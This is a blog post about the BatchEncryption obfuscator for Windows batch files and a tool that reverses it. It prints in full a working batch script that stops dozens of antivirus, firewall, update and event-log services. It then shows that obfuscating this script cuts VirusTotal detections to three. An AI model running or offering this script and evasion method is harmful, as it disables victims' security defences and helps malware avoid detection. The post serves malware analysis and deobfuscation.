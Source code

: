 +++
title = "Exploring the BatchEncryption tool (and its deobfuscator) by gwsbhqt@163.com "
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["BatchEncryption","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++

## What is the BatchEncryption tool
The BatchEncryption tool is a tool used for obfuscating batch files. It is rather one of the most uncommon ones since it combines known and custom environment variable encodings to obfuscate the script. The way it works is it sets a randomly generated dictionary into a custom envar which is just a single quote ("'"). It then encodes it with existing environment variable substrings and then takes the remainder of the command using substrings of the custom environment variable declared previously.

The use of this tool was seen back in 2017 in the *Jawlan and Suriya.doc* (SHA-256: 761483906b45fad51f3c7ab66b1534dee137e93a52816aa270bc97249acb56d0) and has almost unknown at the time, with only 3 google search results. Now it has started to pop up more (mainly in .cn forums).

An example of a batch file obfuscated with BatchEncryption can be seen below:  
![example](/static/posts/batchEncryption/example.png)


The nice thing about this tool is that still in this day, it manages to get low AV detection in VT. Let's take a .bat sample that disables multiple different AV engines:
```bat
set ii=ne
set ywe=st
set ury=t
set iej=op
set jt53=Syma
set o6t=nor
set lyd2=fee
set h3d=ton
set gf45=ntec
set own5=McA
net stop "Security Center" /y
net stop "Automatic Updates" /y
net stop "Symantec Core LC" /y
net stop "SAVScan" /y
net stop "norton AntiVirus Firewall Monitor Service" /y
net stop "norton AntiVirus Auto-Protect Service" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "McAfee Spamkiller Server" /y
net stop "McAfee Personal Firewall Service" /y
net stop "McAfee SecurityCenter Update Manager" /y
net stop "Symantec SPBBCSvc" /y
cls
net stop "Ahnlab Task Scheduler" /y
net stop navapsvc /y
net stop "Sygate Personal Firewall Pro" /y
net stop vrmonsvc /y
net stop MonSvcNT /y
net stop SAVScan /y
net stop NProtectService /y
net stop ccSetMGR /y
net stop ccEvtMGR /y
net stop srservice /y
net stop "Symantec Network Drivers Service" /y
net stop "norton Unerase Protection" /y
net stop MskService /y
net stop MpfService /y
net stop mcupdmgr.exe /y
net stop "McAfeeAntiSpyware" /y
net stop helpsvc /y
net stop ERSvc /y
net stop "*norton*" /y
net stop "*Symantec*" /y
net stop "*McAfee*" /y
cls
net stop ccPwdSvc /y
net stop "Symantec Core LC" /y
net stop navapsvc /y
net stop "Serv-U" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "Symantec AntiVirus Client" /y
net stop "norton AntiVirus Server" /y
net stop "NAV Alert" /y
net stop "Nav Auto-Protect" /y
cls
net stop "McShield" /y
net stop "DefWatch" /y
net stop eventlog /y
net stop InoRPC /y
net stop InoRT /y
net stop InoTask /y
cls
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "norton AntiVirus Corporate Edition" /y
net stop "ViRobot Professional Monitoring" /y
net stop "PC-cillin Personal Firewall" /y
net stop "Trend Micro Proxy Service" /y
net stop "Trend NT Realtime Service" /y
net stop "McAfee.com McShield" /y
net stop "McAfee.com VirusScan Online Realtime Engine" /y
net stop "SyGateService" /y
net stop "Sygate Personal Firewall Pro" /y
cls
net stop "Sophos Anti-Virus" /y
net stop "Sophos Anti-Virus Network" /y
net stop "eTrust Antivirus Job Server" /y
net stop "eTrust Antivirus Realtime Server" /y
net stop "Sygate Personal Firewall Pro" /y
net stop "eTrust Antivirus RPC Server" /y
cls
net stop netsvcs
net stop spoolnt
```

The VT result of this is the following:  
![example](/static/posts/batchEncryption/VT_plain.png)
(I got to admin I was expecting more).

Now let's use the BatchEncryption tool to obfuscate our sample and load it again:
![example](/static/posts/batchEncryption/obfuscated_sample.png)

In just a text editor we can't really see what's going on because of the encoding used, but if we load it for example in cyberchef, it gets converted to utf8 and thus we can see readable chars. Anyways, we can see that indeed a lot of stuff is going on. Custom, existing envars, caret symbol for extra obfuscation etc. We also notice a header on top, which is the author of the program (gwsbhqt@163.com). Let's load it to VT and watch what happens:  
![example](/static/posts/batchEncryption/VT_obfuscated.png)

We successfully reduced our results to only 3! For any of you wondering what would happen if we had removed the header of the author and load it again, it would give the same results. 

Let's now see how we can deobfuscate samples obfuscated with this technique.

## Batch-Encryption-DeCoder
Luckily for us, there is already a tool for this purpose, which can be found here:
- https://github.com/cnHopeStudio/Batch-Encryption-DeCoder

We need to build this tool to get the final executable, which when run, gives us the original batch file: 

![example](/static/posts/batchEncryption/using_the_deobfuscator.png)


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://i.blackhat.com/briefings/asia/2018/asia-18-bohannon-invoke_dosfuscation_techniques_for_fin_style_dos_level_cmd_obfuscation-wp.pdf">blackhat: <i>Exploring the Depths
of Cmd.exe Obfuscation and Detection Techniques</i></a></li>
        <li> [2] <a href="https://blog.csdn.net/Hunter98234/article/details/108672926">Amit: <i>Recipient batch processing documents confused by BatchEncryption (version 201610)</i></a></li>
        <li> [3] <a href="http://www.bathome.net/thread-42106-1-2.html">gwsbhqt: <i>[Original Tool][201610]BatchEncryption-BatchEncrying Encryption</i></a></li>
    </ul>
</blockquote> 